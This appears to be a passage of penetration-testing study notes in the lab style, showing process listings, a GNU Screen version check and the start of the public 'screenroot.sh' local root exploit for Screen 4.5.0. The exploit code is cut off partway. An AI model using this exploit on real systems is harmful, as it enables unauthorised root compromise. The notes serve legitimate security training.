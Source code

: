 ```shell-session
root         790  0.0  0.0  81932  3648 ?        Ssl  12:31   0:00 /usr/sbin/irqbalance --foreground
root         792  0.1  0.5  48244 20540 ?        Ss   12:31   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         793  1.3  0.2 239180 11832 ?        Ssl  12:31   0:00 /usr/lib/policykit-1/polkitd --no-debug
root         806  2.1  1.1 1096292 44976 ?       Ssl  12:31   0:01 /usr/lib/snapd/snapd
root         807  0.0  0.1 244352  6516 ?        Ssl  12:31   0:00 /usr/libexec/switcheroo-control
root         811  0.1  0.2  17412  8112 ?        Ss   12:31   0:00 /lib/systemd/systemd-logind
root         817  0.0  0.3 396156 14352 ?        Ssl  12:31   0:00 /usr/lib/udisks2/udisksd
root         818  0.0  0.1  13684  4876 ?        Ss   12:31   0:00 /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant
root         871  0.1  0.3 319236 13828 ?        Ssl  12:31   0:00 /usr/sbin/ModemManager
root         875  0.0  0.3 178392 12748 ?        Ssl  12:31   0:00 /usr/sbin/cups-browsed
root         889  0.1  0.5 126676 22888 ?        Ssl  12:31   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root         906  0.0  0.2 248244  8736 ?        Ssl  12:31   0:00 /usr/sbin/gdm3
root        1137  0.0  0.2 252436  9424 ?        Ssl  12:31   0:00 /usr/lib/upower/upowerd
root        1257  0.0  0.4 293736 16316 ?        Ssl  12:31   0:00 /usr/lib/packagekit/packagekitd
```

```shell-session
cyberslut@htb[/htb]$ ps au

USER       		PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root      		1256  0.0  0.1  65832  3364 tty1     Ss   23:26   0:00 /bin/login --
cliff.moore     1322  0.0  0.1  22600  5160 tty1     S    23:26   0:00 -bash
shared     		1367  0.0  0.1  22568  5116 pts/0    Ss   23:27   0:00 -bash
root      		1384  0.0  0.1  52700  3812 tty1     S    23:29   0:00 sudo su
root      		1385  0.0  0.1  52284  3448 tty1     S    23:29   0:00 su
root      		1386  0.0  0.1  21224  3764 tty1     S+   23:29   0:00 bash
shared     		1397  0.0  0.1  37364  3428 pts/0    R+   23:30   0:00 ps au
```

- Installed Packages and Versions: check for any out-of-date or vulnerable packages. For example, the popular terminal multiplexer Screen suffers from a privesc vulnerability in Version 4.5.0 due to a lack of permission check when opening a log file. The screen version can be identified using the following command:

```shell-session
cyberslut@htb[/htb]$ screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```

This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access. The below script can be used to perform this privesc attack: 

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
```